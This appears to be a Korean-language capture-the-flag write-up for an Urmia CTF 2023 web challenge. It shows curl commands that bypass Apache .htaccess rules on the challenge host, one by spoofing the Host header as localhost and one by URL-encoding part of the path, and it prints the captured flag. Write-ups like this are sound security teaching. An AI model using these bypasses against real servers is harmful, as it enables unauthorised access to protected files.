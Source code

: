 ```yaml
---
title: "[Urmia CTF 2023] htaccess(helicoptering) writeup"
date: 2023-09-03 11:01:00 +0900
categories: [WEB]
tags: [ctf, web, apache]
description: web ctf challenge about apache htaccess
---
```


## solve
![](/assets/img/posts/230903-01.png)

두개의 `.htaccess` 를 우회하면 flag를 획득할 수 있다.

```
$ curl http://htaccess.uctf.ir/one/flag.txt
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
</body></html>
```
만약 우회하지 않고 접근한다면 403을 반환한다.
```
RewriteEngine On
RewriteCond %{HTTP_HOST} !^localhost$
RewriteRule ".*" "-" [F]
```
첫 번째 `.htaccess` 는 HTTP_HOST가 localhost인지 확인한다.

```
$ curl -H 'Host: localhost' http://htaccess.uctf.ir/one/flag.txt
uctf{Sule_%
```
요청할 때 헤더에 Host를 바꿔주면 통과된다.

```
RewriteEngine On
RewriteCond %{THE_REQUEST} flag
RewriteRule ".*" "-" [F]
```
두 번째 `.htaccess` 는 THE_REQUEST 변수에 flag가 존재하는지 검사한다.

```
THE_REQUEST
    The full HTTP request line sent by the browser to the server (e.g., "GET /index.html HTTP/1.1"). This does not include any additional headers sent by the browser. This value has not been unescaped (decoded), unlike most other variables below.
```
[documentation](https://httpd.apache.org/docs/current/mod/mod_rewrite.html)에 의하면 request path 부분(GET /path HTTP/1.1)이 THE_REQUEST 변수에 해당하는 것으로 보인다. 또한, decoded text라고 하니, flag 부분을 url encode 해주면 될 것 같다.

```
$ curl http://htaccess.uctf.ir/two/%66lag.txt
Dukol_waterfall}%
```

f 부분만 %66으로 바꿔서 요청해주면 나머지 플래그를 획득할 수 있다.

`uctf{Sule_Dukol_waterfall}`

## ref.
[apache documentation](https://httpd.apache.org/docs/current/mod/mod_rewrite.html)